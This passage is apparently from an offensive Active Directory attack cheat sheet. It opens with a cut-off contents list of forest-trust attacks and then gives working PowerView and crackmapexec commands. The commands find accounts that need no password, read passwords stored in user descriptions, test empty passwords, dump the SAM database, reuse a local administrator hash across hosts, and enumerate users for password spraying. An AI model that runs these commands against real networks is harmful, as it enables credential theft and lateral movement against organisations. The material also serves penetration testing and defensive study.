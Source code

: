   * [Child to Forest Root](#Child-to-Forest-Root)
    * [Trust key](#Trust-key)
    * [Krbtgt hash](#Krbtgt-hash)
* [Cross Forest attacks](#Crossforest-attacks)
  * [Kerberoast](#Kerberoast2)
  * [Printer Bug](#Printer-bug2) 
  * [Trust key](#Trust-key2) 
  * [SQL Server](#SQL-Server)
  * [Foreign Security Principals](#Foreign-Security-Principals)
  * [ACLs](#ACLs)
  * [Pam Trust](#Pam-Trust)
  * [RDPInception](#RDPInception)

## Password not required
#### Check for users with password not required attribute
- These users are able to have an empty password
```
Get-DomainUser | Where-Object useraccountcontrol -Match PASSWD_NOTREQD | Select-Object samaccountname, useraccountcontrol
```

#### Check if user has empty password
- Or use powershell runas through RDP!
```
crackmapexec smb <DC IP> -u <USER> -p ''
```

## Password in description
#### Check for passwords in the description
```
Get-DomainUser | Where-Object -Property Description | Select-Object samaccountname, description
```

## Reuse local admin password
#### Dump sam database
- Requires local admin access
```
crackmapexec smb <HOST> -u <USER> -p <PASSWORD> -d <DOMAIN> --sam
```

#### Reuse local administrator password against all other hosts
```
crackmapexec smb hosts.txt -u administrator -H <HASH> -d .
```

## Password spraying
#### Retrieve a list of usernames
```
crackmapexec ldap <DC IP> -u <USER> -p <PASSWORD> --users
```
